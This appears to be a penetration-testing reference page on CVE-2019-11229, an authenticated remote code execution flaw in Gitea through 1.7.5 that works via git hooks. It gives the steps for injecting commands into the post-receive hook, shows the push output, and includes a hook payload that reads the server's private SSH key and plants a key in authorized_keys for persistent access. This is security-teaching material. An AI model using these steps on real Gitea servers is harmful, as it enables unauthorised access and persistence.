

# Gitea

Gitea is a lightweight, self-hosted Git service written in Go, offering source code hosting with a web interface similar to GitHub. It supports essential Git operations like repository management, pull requests, and issue tracking, while maintaining a minimal resource footprint, making it suitable for private deployments. Commonly deployed by small teams or organizations on internal infrastructure, Gitea is often exposed via HTTP and integrates with SSH for repository access.

## Authenticated RCE

Gitea versions up to `1.7.5` are susceptible to an authenticated RCE vulnerability ([CVE-2019-11229](https://nvd.nist.gov/vuln/detail/CVE-2019-11229)) through the misuse of Git Hooks. Git Hooks are server-side scripts that execute during Git events like commits or pushes. In vulnerable versions, authenticated users with repository write access can define arbitrary content in these hooks, including shell commands. Since these scripts execute on the server during Git operations, this opens a path for executing commands in the context of the Gitea service user.

After registering a new user and creating a repository, it's possible to inject commands (e.g., `cat /etc/hosts`) into the post-receive Git Hook via the repository settings.&#x20;

<figure><figcaption></figcaption></figure>

When a push operation is triggered from the attacker's local Git client, the server executes the malicious hook content. The output is returned as part of the Git response, confirming successful command execution.

```bash
$ git clone http://gitea-instance:3000/test/test.git
$ cd test
$ echo test >> test.txt
$ git add .
$ git config user.name test
$ git commit -m "test"
<SNIP>
 1 file changed, 2 insertions(+)
 $ git push
Username for 'http://gitea-instance:3000': test
Password for 'http://test@gitea-instance:3000':
<SNIP>
remote: # The following lines are desirable for IPv6 capable hosts
remote: ::1     localhost ip6-localhost ip6-loopback
remote: ff02::1 ip6-allnodes
remote: ff02::2 ip6-allrouters
<SNIP>
```

This can be used for reverse payloads or, as shown in the example below, for establishing persistent SSH access.


```bash
# Payload
ssh-keygen -t rsa -f ~/.ssh/id_rsa -N '' # Generate ssh key pair
cat ~/.ssh/id_rsa # Read the private key
cat ~/.ssh/id_rsa.pub >> ~/.ssh/authorized_keys # Add the public key to authorized keys
```


<figure><figcaption></figcaption></figure>
